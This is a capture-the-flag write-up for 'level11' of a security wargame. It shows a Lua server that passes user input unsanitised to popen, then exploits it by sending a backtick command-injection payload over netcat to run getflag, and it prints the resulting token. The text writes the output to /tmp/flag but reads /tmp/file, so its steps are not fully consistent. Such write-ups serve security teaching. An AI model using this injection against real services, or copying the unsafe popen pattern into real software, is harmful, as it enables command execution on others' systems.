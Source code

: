 # level11 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file

```
$ ls
> level11.lua
```

It's a <a href="https://fileinfo.com/extension/lua">Lua</a> file, so we decide to check what he contain. 

And multiple line was interesting.

```
$ cat

> 2  local socket = require("socket")
> 3  local server = assert(socket.bind("127.0.0.1", 5151))
> 4  function hash(pass)
> 5    prog = io.popen("echo "..pass.." | sha1sum", "r")
> 6    data = prog:read("*all")
> 7    prog:close()
> 8    data = string.sub(data, 1, 40)
> 9    return data
> 10  end
> ...
```

But two were more intriguing than the others, <a href="https://man7.org/linux/man-pages/man3/popen.3.html">popen</a> and <a href="https://opensharing.fr/commandes-linux-sha1sum">sha1sum</a>

```
$ man popen
> The popen() function opens a process by creating a pipe, forking,
> and invoking the shell.  Since a pipe is by definition
> unidirectional, the type argument may specify only reading or
> writing, not both; the resulting stream is correspondingly read-
> only or write-only.
> 
> The command argument is a pointer to a null-terminated string
> containing a shell command line.  This command is passed to
> /bin/sh using the -c flag; interpretation, if any, is performed
> by the shell.
```

After that we conclude that was popen the thing to work with,
so let's try to connect on the listenner

remember :

```
> 3  local server = assert(socket.bind("127.0.0.1", 5151))
```

```
$ nc localhost 5151
> password : 
```

Maybe we need to inject code for the popen, let's try

```
$ nc localhost 5151
> password : `getflag` > /tmp/flag
```

Verifying the file

```
$ cat /tmp/file
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level10">previous level</a> - <a href="../../level12">next level</a>
